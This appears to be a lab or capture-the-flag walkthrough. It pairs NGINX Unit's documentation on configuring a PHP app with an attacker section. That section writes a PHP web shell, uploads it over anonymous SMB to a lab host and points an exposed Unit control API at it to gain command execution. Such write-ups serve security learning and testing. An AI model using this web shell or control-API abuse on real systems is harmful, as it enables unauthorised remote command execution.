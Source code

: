 Unit runs apps in a [variety of languages](https://unit.nginx.org/howto/samples/). Let's explore the configuration of a simple PHP app on Unit with `curl`.
Suppose you saved a PHP script as `/www/helloworld/index.php`:
```php
<?php echo "Hello, PHP on Unit!"; ?>
```
To run it on Unit with the `unit-php` module installed, first set up an application object. Let's store our first config snippet in a file called `config.json`:
```json
{
    "helloworld": {
        "type": "php",
        "root": "/www/helloworld/"
    }
}
```
Saving it as a file isn't necessary, but can come in handy with larger objects.
Now, `PUT` it into the `/config/applications` section of Unit's control API, usually available by default via a Unix domain socket:
```shell
curl -X PUT --data-binary @config.json --unix-socket  \
       /path/to/control.unit.sock http://localhost/config/applications
```
```json
{
	"success": "Reconfiguration done."
}
```

![Attacker](https://custom-icon-badges.demolab.com/badge/Attacker-e57373?logo=kali-linux_white_32&logoColor=white)

`vim ./shell.php`:
```php
<?php system($_GET['cmd']); ?>
```

`smbclient --no-pass //192.168.56.137/icecream`:
```
Try "help" to get a list of possible commands.
smb: \> put shell.php ←
putting file shell.php as \shell.php (6.2 kb/s) (average 3.5 kb/s)
```

`vim ./app.json`:
```json
{
    "type": "php",
    "processes": 1,
    "root": "/tmp", ←
    "index": "shell.php" ←
}
```

`curl -X PUT -d @app.json --header "Content-Type: application/json" http://192.168.56.137:9000/config/applications/myapp`:
```json
{
        "success": "Reconfiguration done."
}
```

